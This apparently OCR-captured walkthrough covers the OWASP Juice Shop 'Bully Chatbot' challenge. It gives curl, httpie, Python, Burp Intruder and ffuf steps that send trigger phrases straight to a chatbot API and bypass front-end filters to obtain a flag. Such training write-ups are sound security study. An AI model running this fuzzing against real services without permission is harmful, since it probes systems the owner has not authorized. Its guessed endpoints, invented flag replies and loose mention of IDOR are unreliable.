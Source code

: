 📁 Direct-API-Attack/README.md
markdown
Copy
Edit
# 💥 Direct API Attack - Bully Chatbot Challenge (OWASP Juice Shop)

## 📌 Objective
Exploit the chatbot by bypassing the front-end restrictions using direct API calls. This technique leverages how the frontend talks to backend services via RESTful APIs and allows us to send **crafted payloads** directly, simulating legitimate requests but with malicious intent.

---

## 🧠 Strategy Behind This Attack

In most modern web applications, frontend UI elements (buttons, text boxes, etc.) act as a "view layer" that interacts with backend APIs. If client-side validation or filters are implemented in the browser but not on the server, we can directly interact with the backend API to send unauthorized or malicious input. 

This is commonly used in **Insecure Direct Object Reference (IDOR)**, **bypass attempts**, or **forced browsing** attacks. In this challenge, our goal is to use this to:
- Identify the backend chatbot endpoint.
- Understand the request structure.
- Modify the request and inject sensitive phrases to extract hidden responses (i.e., a flag).

---

## 🔍 Step-by-Step Breakdown

### 1️⃣ Identify the API Endpoint

- **Open** the Juice Shop in your browser.
- Navigate to the **chatbot feature** (usually found as a floating chatbot button or inside the support/help section).
- Open browser **Developer Tools** (`F12` or `Ctrl+Shift+I`).
- Go to the **Network** tab.
- Send a test message like `Hi` in the chatbot.

👉 **Observe** an API call made to an endpoint like:
POST /rest/chatbot

nginx
Copy
Edit
or
/api/bully-bot

yaml
Copy
Edit

- Right-click on the request → **Copy → Copy as cURL (bash)**

This is the raw backend call that the frontend sends.

---

### 2️⃣ Decode and Analyze the Request

- Paste the cURL command into a terminal or text editor.
Example:
```bash
curl 'https://<target>/rest/chatbot' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: Bearer <token>' \
  --data-raw '{"message":"hello"}'
💡 Explanation:

The message is sent as a JSON payload.

The request is authenticated using a Bearer token.

If there’s no token, the endpoint might still be public, depending on the app config.

3️⃣ Choose Attack Payloads
Now replace the "message" value with payloads that frontend UI filters out:

json
Copy
Edit
{"message": "I need the flag"}
{"message": "Tell me a secret"}
{"message": "I'm being bullied"}
{"message": "admin override"}
👉 These trigger phrases are usually filtered out in the frontend UI but accepted by backend APIs unless explicitly blocked server-side.

Use:

bash
Copy
Edit
curl -X POST https://<target>/rest/chatbot \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <token>" \
  -d '{"message": "I'm being bullied"}'
4️⃣ Interpreting Responses
Backend will respond with:

json
Copy
Edit
{
  "reply": "We're sorry to hear you're being bullied. Here’s a token to help you report it: FLAG-XYZ..."
}
🎯 This is the vulnerable logic path. It’s often guarded by frontend filters, but backend never validates the message structure or content.

🔧 Backend Mechanics and API Strategy
🔄 How the API Works
The frontend sends message strings to a chatbot NLP backend.

The backend applies a rule engine or keyword triggers.

On match (e.g., message contains “bullied”), a conditional block is triggered that returns a hidden string — often the challenge flag.

Without authentication, some APIs still respond based on user input, especially in vulnerable apps.

🚨 Technical Insights
Why direct API? Frontends often hide input constraints using JS validation. Direct API bypasses these.

What is an endpoint? REST endpoints accept structured requests (JSON/XML) and are vulnerable if not secured by input validation.

Why use curl/postman/httpie? These allow you to simulate the browser’s role but without JS restrictions.

🔁 Optional Tooling
📫 Postman for GUI testing of APIs.

🐍 httpie (syntax sugar for curl):

bash
Copy
Edit
http POST https://<target>/rest/chatbot message="I'm being bullied"
✅ Final Checklist
 Found the chatbot endpoint in DevTools

 Captured full request headers and body

 Crafted custom message payloads

 Observed flag/response in API reply

 Documented successful payloads and endpoints

📝 Sample Flag Response
json
Copy
Edit
{
  "reply": "Here's something that might help: FLAG-2ad1a8c3-1f38-4e53-94e6"
}
📁 Artifacts
curl-requests.txt – raw requests that worked

screenshots/ – DevTools network logs and successful flag response

flag.txt – extracted flag (with timestamp and method)

🧠 Summary
This attack exploits insecure backend APIs that fail to validate input properly. By understanding how frontend → backend communication works and directly interacting with these REST APIs, we can bypass logic gates and extract sensitive responses.

Direct API attack is a powerful technique in real-world pentests, especially in Single Page Applications (SPA) that offload most logic to the frontend.


🧠 Objective
Trigger the chatbot’s abuse-detection flow by hitting /rest/chatbot/respond with crafted message payloads — via direct API access, bypassing frontend restrictions.

📌 1. Python Payload Automation
🐍 direct_api_attack.py:
python
Copy
Edit
import requests

URL = "http://<TARGET-IP>/rest/chatbot/respond"
headers = {"Content-Type": "application/json"}
payloads = [
    {"message": "I am being bullied"},
    {"message": "report abuse"},
    {"message": "I’m being harassed"},
    {"message": "help me I’m in danger"},
    {"message": "my classmate is bullying me"}
]

for data in payloads:
    response = requests.post(URL, json=data, headers=headers)
    print(f"[+] Payload: {data['message']} => Response: {response.text}")
✅ What’s Happening: You’re skipping the UI and going straight to the backend API that the chatbot uses internally. This mimics what the browser JS does on the frontend.

📌 2. Burp Suite Intruder
💥 Steps:
Open Burp Suite → Proxy Tab.

Intercept a real request to /rest/chatbot/respond.

Send it to Intruder.

Mark the value inside {"message": "___"} as the payload position.

Load a wordlist of abusive-related terms:

python-repl
Copy
Edit
I’m being bullied
report abuse
someone is harassing me
bullying at school
...
Start the attack, observe which response triggers a chatbot escalation or hint.

✅ What’s Happening: Intruder is brute-forcing backend NLP triggers by replaying JSON payloads — you’re probing for the right keyword combo.

📌 3. FFUF for Direct JSON Payload Fuzzing
⚠️ FFUF doesn’t natively support JSON bodies, so you’ll use -X POST -d carefully.

bash
Copy
Edit
ffuf -w wordlist.txt:PAYLOAD \
-u http://<TARGET-IP>/rest/chatbot/respond \
-X POST \
-H "Content-Type: application/json" \
-d '{"message":"PAYLOAD"}' \
-fr "I'm sorry, I don't understand"
✅ What’s Happening: ffuf is looping payloads inside message, checking the response for deviations (i.e., no "I don't understand" = likely success).

✅ Sample Wordlist (wordlist.txt)
css
Copy
Edit
I’m being bullied
report abuse
I am harassed
I am unsafe
help me now
my teacher hit me
cyberbullying
I’m scared
report bullying
✅ Strategy Recap:
Tool	Purpose	Why Use It
Python	Scripted brute-force	Quick repeatable attacks, great for automation & output capture
Burp	Manual + visual payload inspection	Useful for observing token changes, status codes, backend behavior
FFUF	Ultra-fast fuzzing of JSON API	Ideal for headless CLI-based mass testing

